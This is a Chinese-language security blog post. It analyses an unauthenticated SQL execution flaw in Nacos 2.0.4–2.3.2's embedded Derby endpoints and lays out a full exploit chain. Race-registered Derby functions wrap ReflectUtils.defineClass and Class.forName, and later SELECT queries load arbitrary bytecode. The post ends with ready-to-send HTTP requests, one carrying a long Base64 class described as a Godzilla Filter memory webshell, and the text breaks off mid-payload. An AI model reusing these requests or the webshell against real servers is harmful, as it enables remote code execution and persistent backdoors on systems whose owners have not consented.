





## TL;DR

Nacos 在单机模式下默认使用内嵌的 Derby 数据库，并且在 `ConfigOpsController` 中暴露了两个未授权接口：`/v1/cs/ops/derby` 和 `/v1/cs/ops/data/removal`。前者只能执行 `SELECT` 查询，但执行过程是同步稳定的；后者可以执行任意 SQL 语句，但因为临时文件在异步线程读取前就会被删掉，所以需要 race condition 来完成利用。

网上公开的利用方式主要有两种，一种是利用 `sqlj.install_jar` 远程加载恶意 jar 包，要求目标出网；另一种不出网方案是在 `/v1/cs/ops/data/removal` 里注册 `ReflectUtils.defineClass` 自定义函数后，再通过 `INSERT INTO` 语句触发字节码加载。但 `INSERT` 属于写操作，没法在 `/v1/cs/ops/derby` 里执行，导致每次传字节码打内存马的时候也必须走 `/v1/cs/ops/data/removal` 去赌条件竞争，实测其实非常难成功。

而通过代码分析我发现，可以只在最开始把所需的 Java 静态方法注册成 Derby 自定义函数时竞争，后续真正传入字节码并初始化内存马时，直接通过 `/v1/cs/ops/derby` 的 `SELECT` 语句调用这些函数，从而实现加载字节码阶段完全不需要竞争。同时在实战中遇到的是 JDK17，针对其模块化强封装的机制导致 `ClassLoader.defineClass` 反射失效的问题，利用 Spring 5.3 中五参数的 `ReflectUtils.defineClass` 配合 `MethodHandles.privateLookupIn` 完成绕过，死而复生（DeepSeek 真是个杂种啊 骗我😧

## 代码分析

漏洞入口在 `com.alibaba.nacos.config.server.controller.ConfigOpsController`，对应的路由前缀是 `/v1/cs/ops`。

先看这个 Controller 里和 Derby 相关的两个核心方法：

```java
// config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java
@RestController
@RequestMapping(Constants.OPS_CONTROLLER_PATH)
@ExtractorManager.Extractor(httpExtractor = ConfigDefaultHttpParamExtractor.class)
public class ConfigOpsController {

    private static final Logger LOGGER = LoggerFactory.getLogger(ConfigOpsController.class);

    private final DumpService dumpService;

    public ConfigOpsController(DumpService dumpService) {
        this.dumpService = dumpService;
    }

    @GetMapping(value = "/derby")
    @Secured(action = ActionTypes.READ, resource = "nacos/admin")
    public RestResult<Object> derbyOps(@RequestParam(value = "sql") String sql) {
        String selectSign = "SELECT";
        String limitSign = "ROWS FETCH NEXT";
        String limit = " OFFSET 0 ROWS FETCH NEXT 1000 ROWS ONLY";
        try {
            if (!DatasourceConfiguration.isEmbeddedStorage()) {
                return RestResultUtils.failed("The current storage mode is not Derby");
            }
            LocalDataSourceServiceImpl dataSourceService = (LocalDataSourceServiceImpl) DynamicDataSource
                    .getInstance().getDataSource();
            if (StringUtils.startsWithIgnoreCase(sql, selectSign)) {
                if (!StringUtils.containsIgnoreCase(sql, limitSign)) {
                    sql += limit;
                }
                JdbcTemplate template = dataSourceService.getJdbcTemplate();
                List<Map<String, Object>> result = template.queryForList(sql);
                return RestResultUtils.success(result);
            }
            return RestResultUtils.failed("Only query statements are allowed to be executed");
        } catch (Exception e) {
            return RestResultUtils.failed(e.getMessage());
        }
    }

    @PostMapping(value = "/data/removal")
    @Secured(action = ActionTypes.WRITE, resource = "nacos/admin")
    public DeferredResult<RestResult<String>> importDerby(@RequestParam(value = "file") MultipartFile multipartFile) {
        DeferredResult<RestResult<String>> response = new DeferredResult<>();
        if (!DatasourceConfiguration.isEmbeddedStorage()) {
            response.setResult(RestResultUtils.failed("Limited to embedded storage mode"));
            return response;
        }
        DatabaseOperate databaseOperate = ApplicationUtils.getBean(DatabaseOperate.class);
        WebUtils.onFileUpload(multipartFile, file -> {
            NotifyCenter.publishEvent(new DerbyImportEvent(false));
            databaseOperate.dataImport(file).whenComplete((result, ex) -> {
                NotifyCenter.publishEvent(new DerbyImportEvent(true));
                if (Objects.nonNull(ex)) {
                    response.setResult(RestResultUtils.failed(ex.getMessage()));
                    return;
                }
                response.setResult(result);
            });
        }, response);
        return response;
    }
}
```

虽然两个方法上面都挂了 `@Secured` 注解，但 Nacos 默认配置下 `nacos.core.auth.enabled=false`，鉴权切面不会生效，因此默认情况下这两个接口都可以未授权直接访问。

先看 `derbyOps` 方法，它接收 `sql` 参数后只检查了是否以 `SELECT` 开头，如果语句里不包含 `ROWS FETCH NEXT`，就在末尾拼上分页语句 `OFFSET 0 ROWS FETCH NEXT 1000 ROWS ONLY`（实战中如果在子查询或复杂语句里不希望被拼上这段分页，只要在 SQL 末尾加上 `/*ROWS FETCH NEXT*/` 或 `/*limit*/` 即可），随后直接交给 `JdbcTemplate.queryForList(sql)` 执行。因为底层走的是 `Statement.executeQuery`，Derby 会严格校验语句类型，像 `CREATE`、`INSERT`、`CALL` 这类语句都会直接报错返回 `Only query statements are allowed to be executed`，所以单靠 `/v1/cs/ops/derby` 只能做查询。

再看下面的 `importDerby` 方法，它接收上传的 `file` 文件并交给了 `WebUtils.onFileUpload`，跟进这个方法

```java
// core/src/main/java/com/alibaba/nacos/core/utils/WebUtils.java
public static void onFileUpload(MultipartFile multipartFile, Consumer<File> consumer,
        DeferredResult<RestResult<String>> response) {
    
    if (Objects.isNull(multipartFile) || multipartFile.isEmpty()) {
        response.setResult(RestResultUtils.failed("File is empty"));
        return;
    }
    File tmpFile = null;
    try {
        tmpFile = DiskUtils.createTmpFile(multipartFile.getName(), TMP_SUFFIX);
        multipartFile.transferTo(tmpFile);
        consumer.accept(tmpFile);
    } catch (Throwable ex) {
        if (!response.isSetOrExpired()) {
            response.setResult(RestResultUtils.failed(ex.getMessage()));
        }
    } finally {
        DiskUtils.deleteQuietly(tmpFile);
    }
}
```

`onFileUpload` 在 `/tmp` 目录下创建临时文件，把上传的内容写进去之后调用 `consumer.accept(tmpFile)`，也就是执行 `importDerby` 里传入的 Lambda 表达式 `databaseOperate.dataImport(file)`，然后马上在 `finally` 块里调用 `DiskUtils.deleteQuietly(tmpFile)` 把临时文件删掉。

继续跟进 `StandaloneDatabaseOperateImpl.dataImport` 和它调用的 `BaseDatabaseOperate.doDataImport`

```java
// persistence/src/main/java/com/alibaba/nacos/persistence/repository/embedded/operate/StandaloneDatabaseOperateImpl.java
@Override
public CompletableFuture<RestResult<String>> dataImport(File file) {
    return CompletableFuture.supplyAsync(() -> {
        try (DiskUtils.LineIterator iterator = DiskUtils.lineIterator(file)) {
            int batchSize = 1000;
            List<String> batchUpdate = new ArrayList<>(batchSize);
            List<CompletableFuture<Void>> futures = new ArrayList<>();
            List<Boolean> results = new CopyOnWriteArrayList<>();
            while (iterator.hasNext()) {
                String sql = iterator.next();
                if (StringUtils.isNotBlank(sql)) {
                    batchUpdate.add(sql);
                }
                if (batchUpdate.size() == batchSize || !iterator.hasNext()) {
                    List<ModifyRequest> sqls = batchUpdate.stream().map(s -> {
                        ModifyRequest request = new ModifyRequest();
                        request.setSql(s);
                        return request;
                    }).collect(Collectors.toList());
                    futures.add(CompletableFuture.runAsync(() -> results.add(doDataImport(jdbcTemplate, sqls))));
                    batchUpdate.clear();
                }
            }
            CompletableFuture.allOf(futures.toArray(new CompletableFuture[0])).join();
            int code = 500;
            if (!CollectionUtils.isEmpty(results)) {
                code = (!results.stream().anyMatch(Boolean.FALSE::equals)) ? 200 : 500;
            }
            return RestResult.<String>builder().withCode(code).withData("").build();
        } catch (Throwable ex) {
            LOGGER.error("An exception occurred when external data was imported into Derby : ", ex);
            return RestResultUtils.failed(ex.getMessage());
        }
    });
}
```

```java
// persistence/src/main/java/com/alibaba/nacos/persistence/repository/embedded/operate/BaseDatabaseOperate.java
default Boolean doDataImport(JdbcTemplate template, List<ModifyRequest> requests) {
    final String[] sql = requests.stream().map(ModifyRequest::getSql).map(DerbyUtils::insertStatementCorrection)
            .toArray(String[]::new);
    int[] affect = template.batchUpdate(sql);
    return IntStream.of(affect).count() == requests.size();
}
```

看到这里逻辑就很清楚了，`dataImport` 一上来就用 `CompletableFuture.supplyAsync` 开启异步线程去按行读取 `file`，再通过 `template.batchUpdate(sql)` 批量执行文件里的每一行 SQL，没有任何语句类型的限制。但因为 `supplyAsync` 是异步的，`consumer.accept(tmpFile)` 把任务提交给线程池后会立刻返回，紧接着主线程就会走进 `onFileUpload` 的 `finally` 块把临时文件删掉。

所以只有通过多线程高并发发包，让异步线程在主线程执行 `deleteQuietly` 之前把文件句柄打开，文件里的 SQL 才能真正被执行。

另外顺带看一眼 Nacos 2.4.0 的修复方式。2.4.0 在 `derbyOps` 和 `importDerby` 开头都加上了 `ConfigCommonConfig.getInstance().isDerbyOpsEnabled()` 的判断，这个开关默认是 `false`，也就是关闭接口，请求这两处接口会直接返回 `Derby ops is disabled, please set nacos.config.derby.ops.enabled=true to enabled this feature.`，所以漏洞影响范围为 Nacos 2.0.4 到 2.3.2。

## 字节码加载与 JDK8 利用

Derby 支持将 Java 类中的 static 方法注册为数据库里的函数或存储过程，在目标不出网的情况下，不能用 `sqlj.install_jar` 去远程拉取 jar 包，只能想办法在 SQL 里直接完成 Base64 解码和字节码加载 :( 实际需要出网的洞我可能看都不会看一眼🤣

网上公开的不出网加载字节码方案是这样写的

```sql
CREATE TYPE pbqmhhjClass EXTERNAL NAME 'java.lang.Class' LANGUAGE JAVA;
CREATE TYPE pbqmhhjObject EXTERNAL NAME 'java.lang.Object' LANGUAGE JAVA;
CREATE TYPE pbqmhhjClassLoader EXTERNAL NAME 'java.lang.ClassLoader' LANGUAGE JAVA;

CREATE FUNCTION base64Decode(className VARCHAR(32672))
  RETURNS VARCHAR(32672) FOR BIT DATA
  EXTERNAL NAME 'org.springframework.util.Base64Utils.decodeFromString'
  LANGUAGE JAVA PARAMETER STYLE JAVA;

CREATE FUNCTION getSystemCL()
  RETURNS pbqmhhjClassLoader
  EXTERNAL NAME 'java.lang.ClassLoader.getSystemClassLoader'
  LANGUAGE JAVA PARAMETER STYLE JAVA;

CREATE FUNCTION defineEvil(className VARCHAR(32672), bytes VARCHAR(32672) FOR BIT DATA, loader pbqmhhjClassLoader)
  RETURNS pbqmhhjClass
  EXTERNAL NAME 'org.springframework.cglib.core.ReflectUtils.defineClass(java.lang.String, byte[], java.lang.ClassLoader)'
  LANGUAGE JAVA PARAMETER STYLE JAVA;

CREATE TABLE mytrigger(v pbqmhhjClass);

INSERT INTO mytrigger VALUES (
  defineEvil('Evil', base64Decode('yv66...'), getSystemCL())
);
```

这套公开写法在实际使用中有两个很明显的问题

第一，它最后是用 `INSERT INTO mytrigger VALUES (defineEvil(...))` 来触发函数调用的。前面分析过，`/v1/cs/ops/derby` 只放行 `SELECT` 语句，`INSERT` 语句放不进去，所以公开方案在真正加载恶意字节码的时候，依然只能把这十几 KB 的 Base64 字节码塞进 `/v1/cs/ops/data/removal` 去跑条件竞争。不仅每次换 payload 都要重新竞争，而且一旦同一轮并发里有多个线程同时抢赢，同一个类名被 `defineClass` 重复定义还会直接抛 `LinkageError`，实测非常难成功。

第二，公开方案里用 `ClassLoader.getSystemClassLoader()` 获取的是 `AppClassLoader`。在 Spring Boot 打包出来的 `nacos-server.jar`（fat jar）结构下，Tomcat 相关的类（比如 `Filter`、`ServletRequest`）都在 `BOOT-INF/lib/` 下，由 `LaunchedURLClassLoader` 或 Web 容器的 `TomcatEmbeddedWebappClassLoader` 负责加载。如果把 Tomcat Filter 内存马直接定义到 `AppClassLoader` 里，由于双亲委派机制下父加载器看不到子加载器的类，初始化内存马时很容易因为找不到 Servlet API 的类而失败。

怎么把加载字节码这一步从“需要竞争”变成“不需要竞争”？

其实思路很简单，前面我们说了有一个接口是能够稳定查询的，既然 `ReflectUtils.defineClass` 和 `Class.forName` 都有返回值，只要注册成 Derby 的 FUNCTION，那么我们在 `SELECT` 语句里调用这些函数，就能直接走同步的 `/v1/cs/ops/derby` 接口，完全绕开条件竞争这条我没成功过的路。

这里需要注意一个细节，如果直接写 `select F(...) from config_info`，当目标 Nacos 是新部署的空实例、`config_info` 表里没有任何配置数据时，查询结果是 0 行，Derby 根本不会去计算列里的函数 `F(...)`。要让空表也强制执行一次函数，只需要在查询列前面加一个聚合函数 `count(*)`，写成 `select count(*) as b, F(...) as a from config_info`。因为 `count(*)` 一定会返回一行统计结果，Derby 在构造这一行结果时就会老老实实把后面的 `F(...)` 执行一遍。

同时，为了在 JDK8 下把内存马直接注入到当前 Web 应用的 ClassLoader 中，我们把获取类加载器的函数换成 `org.springframework.util.ClassUtils.getDefaultClassLoader()`，它会直接取当前 HTTP 请求线程的上下文类加载器（即 `TomcatEmbeddedWebappClassLoader`）。

整理下来，JDK8 环境下先通过 `/v1/cs/ops/data/removal` 并发竞争执行一次函数注册

```sql
create type C external name 'java.lang.Class' language java
create type L external name 'java.lang.ClassLoader' language java
create function D(s varchar(32672)) returns varchar(32672) for bit data external name 'org.springframework.util.Base64Utils.decodeFromString' language java parameter style java
create function K() returns L external name 'org.springframework.util.ClassUtils.getDefaultClassLoader' language java parameter style java
create function F(a varchar(32672), b varchar(32672) for bit data, x L) returns C external name 'org.springframework.cglib.core.ReflectUtils.defineClass(java.lang.String,byte[],java.lang.ClassLoader)' language java parameter style java
create function N(a varchar(32672), b boolean, x L) returns C external name 'java.lang.Class.forName(java.lang.String,boolean,java.lang.ClassLoader)' language java parameter style java
```

只要这几条固定声明竞争成功（可以通过查询 `SYS.SYSALIASES` 表确认函数是否创建成功），后续加载字节码和触发类初始化就完全不需要再竞争了，直接向 `/v1/cs/ops/derby` 发送两个 GET 请求即可。执行的 SQL 语句原型如下：

```sql
select count(*) as b, F('类名', D('字节码'), K()) as a from config_info /*limit*/

select count(*) as b, N('类名', true, K()) as a from config_info /*limit*/
```

第一条 SQL 调用 `ReflectUtils.defineClass` 把解码后的字节码定义到当前线程的 `ClassLoader` 中，第二条 SQL 调用 `Class.forName(name, true, loader)` 确保类的 `static {}` 静态代码块被执行，从而完成哥斯拉 Filter 内存马的注册。

```http
POST /nacos/v1/cs/ops/data/removal HTTP/1.1
Host: 127.0.0.1:8848
Content-Type: multipart/form-data; boundary=d41d8cd98f00b204e9800998ecf8427e
Content-Length: 1131

--d41d8cd98f00b204e9800998ecf8427e
Content-Disposition: form-data; name="file"; filename="x.sql"
Content-Type: application/octet-stream

create type C external name 'java.lang.Class' language java
create type L external name 'java.lang.ClassLoader' language java
create function D(s VARCHAR(32672)) returns VARCHAR(32672) FOR BIT DATA external name 'org.springframework.util.Base64Utils.decodeFromString' language java parameter style java
create function K() returns L external name 'org.springframework.util.ClassUtils.getDefaultClassLoader' language java parameter style java
create function F(n VARCHAR(32672), b VARCHAR(32672) FOR BIT DATA, l L) returns C external name 'org.springframework.cglib.core.ReflectUtils.defineClass(java.lang.String, byte[], java.lang.ClassLoader)' language java parameter style java
create function N(n VARCHAR(32672), i BOOLEAN, l L) returns C external name 'java.lang.Class.forName(java.lang.String, boolean, java.lang.ClassLoader)' language java parameter style java
create table T(v C)

--d41d8cd98f00b204e9800998ecf8427e--

```

并发 40 次，最小的回显就对了



```http
GET /nacos/v1/cs/ops/derby?sql=select%20count%28%2A%29%20as%20b%2C%20F%28%27org%2Eapache%2Ebeanutils%2Ecoyote%2Eser%2Estd%2ECalendarSerializer604e90a03291427ba7b875a405e232de%27%2C%20D%28%27yv66vgAAADIBbQEAVm9yZy9hcGFjaGUvYmVhbnV0aWxzL2NveW90ZS9zZXIvc3RkL0NhbGVuZGFyU2VyaWFsaXplcjYwNGU5MGEwMzI5MTQyN2JhN2I4NzVhNDA1ZTIzMmRlBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEADWdldFVybFBhdHRlcm4BABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAAi8qCAAHAQAMZ2V0Q2xhc3NOYW1lAQBUb3JnLmFwYWNoZS5iZWFudXRpbHMuY295b3RlLnNlci5zdGQuU3RkS2V5U2VyaWFsaXplcjhhYTE0ZDk1YmE3YjQwYjBiODEyOTZmNTJkZjkxNGYyCAAKAQAPZ2V0QmFzZTY0U3RyaW5nAQATamF2YS9pby9JT0V4Y2VwdGlvbgcADQEAEGphdmEvbGFuZy9TdHJpbmcHAA8BEKRINHNJQUFBQUFBQUFBTFZZQzN4YlZSbi9ueVROVGRQczFiQkgxcjBZYkV1YnRtbTdicXpkQm4xc3NMcW1HK3ZZN0FiSVRYcmJaa3VUTExucDF2bFdGTVFuaWc4VXAwNXhQaERIQnVuS0JPWUxGRVJFVUJBUjMrOEhvcUtpU1AyZmUyL1NORzAzZnY1Ky90cmVlKzQ1MytQL2ZlZjd2dk9kUHZqUzNmY0NxQmZ0QWpzVHFmNmdtbFFqQTFvd3JLbnhqQjZOcFlPUnhIQkMxNEpwTFJWTTY3M0JicjEzcXpiY3JhV2lhaXg2V0V1dFU5WDZ4dDZtTldIMW9uQmpYYmd1dks2K29XbHQzNXFHM3I2bStzYStCZ1ZDWU80K2RVZ054dFI0ZjdBOXBxYlRuUW0xVjBzcHNBdWNKNWNPU2ZGRE1VMFBYaHFONlhLbFJNQzVJUnFQNmhjTDJQMlZ1d1FjN1lsZVRXQldaelN1ZFdVR3cxcHFweHFPY2FhOE14RlJZN3RVSXVLM05lblFCNkpwZ1YyZC93K2IxbnVnd09XR0F6TUZGdm83cDdSdXZRUXREZ3ZNbjJaZENwa3RoWGhKTTA3U3JhZWk4ZjYyVERSbXVHaXVHL09rR2tlU25OTFlZa3JLV1FCZktXeFlTSitweWFRVzd4V284VThtckp3MFpXbWhpRVZZTEJVdG9iZjNhOE1lTERORm5pL2cwaE1tTWZmS1Axa0VlUy9BaFpKM0JYa0hlOWNJckh4WnVzbTRDbjQzbFZUS2thRXVRSTlkem5EeDcyMnJMUGJhZWdGYkpNekgzamFCc2w2dGozRmdMTkI3cE8vb21NemhRVDBhcElkWFUrNGhBWVYwZXlvbHYzZWNkUE9oaUpiVW80bTRnb3RJRnFINlRqTW1JNm5ocEo0SXRrZVRBL1FSdDJCSVRUWG1sb3VZdVN5SVJBenliNCtDT2t0RmtSQUZyUUl6dW5VMXNqK2tKcTFRdGJkdTduWmhFNDNxMS9TT2VGcFg0eEZPVjA3cnhXSmtIbHlLeTl4b3d4YUJwUk1JMGtrdEV1eldJaWxObHdIT0x3V3ZFSmhkTEZoQkp6ZWE2dHVHZFkxbU9QejBrZ2RkMk9aR0NOdE5EMDhCWjVlTTRSMXViRVUzbVdTNlN0SU9rekt0UlRLcHFENGNwR3FEOUFyc2tpaDNjeU42RTVkRzQycU1BU3UzV3VycXdSNjV1RmRnY1JGN1NFdW4xWDV0VTdSZlMrdjBzNTNXOEJuYXRNYUZWd2xVbklWYWdTcFFQMzA0VHFORE9qVGlSaGhNSkdkTWkvZnJBMFlWNnZDZ0QvM1NKZngyWnBLOXFxNlpVY1hvbzRIN3NGOXl4YXlxRmh4VTlZRmdXN1MvSTY1ci9YTDM0MlRyTlhSNGtKVE9EZU9BOUVFSG5XRDRNdTFHQXJyTWdJNXBVbTFJVWh4a3NPaUpLNWpycVhZMXJYa3dMRk13QkZZYlQ1Z1RheHMzeHlOR3VaeFhsRXFXSktJMktWSVRTOHEyOEQ0dElwM3NOTVVJekpraUQyVWlyR1VtaGhrcUpVTnFMS05aTVZVcnkydHRtOEhxd2x0WXJZdVlGVnhIMVgySlZKYzZTS1lWNTZnVXVUUitHMjV3NDNxOFhjRE5JTFdRdS9CT2d0ODdpVnpCdXdWS1NSZlM5SUVFdDdCbENpMlQyUXIxcHJTK0dQMFFOQ1VRd0kxNHJ3VHdQcWIxM3NudVV2QitnUVhUc1N2NElQMFpqUThsOXRQa0p2OWsvaWxFVms2ZTh1Qm1mTmlORCtFakV6TFlYRlh3VVRPRHJaTG85VS9seDQvaDQyNGN3U2NFWm1xR0UzZGF0ZDJGVHpKVzBwbDQ3V0EwSGFsdGErM2VuSXNoK3ZsV2hsdGNPemhlbXlZZUJIbDh4L0FaNmFYUDBseFR2QXVmNTVibGl5Unh1V1RteXlOZVlLKy9jK0xaMzIyK2QyZ0hNaklMcDF0Tkp5bEpLMTQycGJZUHFORzRjZkl1RzhkbjR0YWpxc1JRVU82UFQ2U0t4YlIrTmRZYWliQVdGRkNkWUVYdjR4L05MdHk2SGVZZVI0ZTBiY3pDaWFKbC9xaXAxTFlNTTNtcHlSTk5CR1Z0YlUybDFHSE9Kek02SGErcGd6SVQwMVJJTHFJcHNtbEExNVBCTFh4MG14UXk5Vmh6V05ObXBpZjRTbURKMlgzSlRFeFA5RjhPMmZRT1ptNUhwRHRaWXMvaWErSlA1VUNzbWg1L0VScFhLZytqT0FvbU0rWHhMRHFialFydTU5bHhWcE1VZkVQQU42MHRDaDVrU1hwWkppajRGdnVjbHdkY3diZTVQMmZmV1FYZnNjQlBHeWtLdm11cFBIY0FLbmljZVRlZ3lUNVRWbG9Qdm04MldFK1lsWEdMc2VMQkQrQXZ3OE40aXZsdEV1K1N4ZHlEcDAzcUgzR2pJb200VHQ4d2RTc21OTG9EYXFwYitvTDFZSDNsSGc5K2pKL0lFK2luWm9udXpvWDBjbi9sdVlMYWc1L2pGeExHTDNsNmtYZTdtaUprWGVMN3RZbnZOL2xqYlpPV085YW1PRGhrRy9FNy9GNjJsSC93WUEzV3l0R2ZHS0JKZFRqR250dUZQNXNhV25WeWhEUHk4RDVYcjVxdmJYL0JYOHZ3S1A3RzNNdFZXYk9QWjBSTnJyWDVGdi92K0ljc2lmK1VVTHdlMUtCV2p2NU5IT2tKT0ZaTmdXT0tVNEZOd24vd2tnUXlSa2NuYzU1S3U0U1FqaHB6NHpIalRsSVFKaGxXdmtGdFBEUUVyMVlMQ3JYdEhFZ2xEc3BXMU96bmhPSVdUdUdTTmZ4QVJvMmxaVE15QlpJOUh1RVdaVHhOaE1lTXFkMXNwS1EzNXVlOHdVRGVUanVzaGZVZU1WUE1Lc01qWWpicDA1bHcycnBVelBOM1RObnJpSExoWlVTSjgzTGQra1I1aXBqSEFuVlFqb3NRamplbllvSHd1Y1Y4c1ZBZWVpdU1uaW1mV2g2eFdEWmdqNGtsSHJ3R3IrV3VpR1hVS2Z1cmtGaWVieHIrMTlOSnV2SjJjV0VaSGhJckptVy9SVnl3SjZzS2pPellWckJRS2F0d1REMThXRGJObXRXeHlmNkw5eXc3WFRqNTFEWlRKT1VTUVFhWnlkS1c2ZXVUTS9WbWN1WXBWc3QyMVBod0NjcGJXbXl5VlJzVDhiNW92M0dvZXZvS1psaVB6MFp2QUNiQ3hEQ3J5SVpJekxqTXU3Q0F6Y3ZxeUZxTmwycTFLVksvcHFHaFVYV0pqVVFpVDk2azdoS1h5RHNuT1Z2cUcxYTdSQ3ZPWjhJNFFBS1VvRlRlRkFHNDVKM1hlQzh6M2tJV09PUDl0UEV1NDRoWGRENUwrZFVLTzBlQXQyb0VzNnE4b3VVdVBNbFgyMTE0NWc1TzIrRG1VK1lsS0s2Y0NzczQ4cGdzZk04d0JQT3lib21MRVk2a3Jhc0tqT0M4aWZKT1kxN1BDT2FmUUVVV1MwOWdPWjlackR5RnFwT29IdGMxazRDQUN5bDlCWUpZYWVpYlo4cTA5TW5SSEdKaDR5R0xocVY1bzZXNXRDcGdEOXc3Z3NiamVaRk9BMjVsZ2FqU3ZLaFNLcWt6UkxFb1dxS2VJSWVENzBENTVsUG82S3BaZERNVXh6RTRTazVqYTQ4Qi9QTHl6U1BZbWNVcmF3SlpYSG04U3h3M1ZQRFNqblhFN3pZVWxmQVpwS2c2TE9kbDI0OEdRbGh0Z0dqa21wT3pUV2dtZFNVaHJjY0d3KzVBSGxpQUZ0VVpVZ080R0plUXBwMWpVbzFoRmh3S2JBcGFoTUpyb1h5TWNhbHdqb00yTVliNXNGdVRrbXFkRVNKK3kwamFZMmlzRTUzbDE1eUNGcXF1b2wxMlBxSlpESjVHb3NkUm5VVnFCSm5aczdNNGxNV3JPOGtTQ2toTGJhaWk1M09XTHVIK2cxODJXdU9pSlhPSnNvcVlhMmhCTFpHWEdiRmo1OXB5emw1bDdlVkdJeGh0cExpYUkyRlk1NFZ0akd4RUhPS3ZpWmxnV1lOSVNOQ2l3NGgwNEJCQnY